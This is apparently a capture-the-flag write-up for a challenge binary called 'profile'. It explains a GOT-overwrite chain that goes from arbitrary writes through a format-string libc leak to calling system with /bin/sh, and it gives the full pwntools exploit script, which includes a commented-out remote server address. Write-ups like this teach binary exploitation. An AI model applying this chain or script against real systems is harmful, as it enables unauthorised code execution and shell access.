 # Exploitation

After running `checksec` on the binary, we can see that the binary is `Partial Relro`, and `non PIE`. this means, that the got is marked as `r/w``, so we can use our primtive to write there.

Firstly, I overwrote `got.free`, to `main`, which will give us an infinite arbitrary writes, because each time the functions ends, it will start over again.

I didn't overwrote `got.exit` yet, because if `free` will be called with name, it will crash because of a check in free which checks for a size field in the chunk.

With our second arbitrary write, I overwrote `got.exit` with main, and then with our third one, I overwrote `got.free` with `got.printf`, and we get a fsb since free is called with out input!

With the fsb, we can easilly get leaks, of libc.

And lastly we'll overwrite `free` again with `system`, and win.

```py
from pwn import *

e = ELF("./profile")
p = process("./profile")
#p = remote("54.78.163.105" , 31540)
libc = ELF("./libc.so.6")

address = e.got.free
p.sendlineafter("Age: ", str((address << 32) + 1))
p.sendafter(b': ', p32(e.sym['main'])[:-1]+b'\x0a')

address = e.got.exit
p.sendlineafter("Age: ", str((address << 32) + 1))
p.sendafter(b': ', p32(e.sym['main'])[:-1]+b'\x0a')

address = e.got.free
p.sendlineafter("Age: ", str((address << 32) + 1))
p.sendafter(b': ', p32(e.sym["printf"])[:-1]+b'\x0a')


p.sendlineafter("Age: ", "1")
p.sendafter(b': ', "%p|%p|%p"+'\x0a')

p.recvuntil("1\n----------------\n")

leaks = p.recvuntil(b"Age").replace(b"Age", b"").split(b"|")
leak = int(leaks[-1], 16) - 0x114a37

libc.address = leak

print(hex(libc.sym.system))

#p.interactive()
address = e.got.free
p.sendlineafter(": ", str((address << 32) + 1))
p.sendlineafter(b': ', p64(libc.sym.system)[:-2])

p.sendline("1")
p.sendline("/bin/sh")

p.interactive()
```
